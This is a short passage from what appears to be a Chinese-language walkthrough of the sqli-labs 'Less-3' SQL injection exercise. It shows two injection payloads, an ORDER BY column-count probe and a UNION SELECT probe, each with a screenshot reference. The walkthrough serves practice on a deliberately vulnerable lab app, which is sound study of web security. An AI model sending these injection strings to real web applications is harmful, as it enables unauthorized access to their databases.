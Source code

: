 

+ 注入以下语句

~~~ shell
?id=1') order by 4--+
~~~

![Less-3_4](./img/Less-3_4.PNG)



+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,3 --+
~~~

![Less-3_5](./img/Less-3_5.PNG)
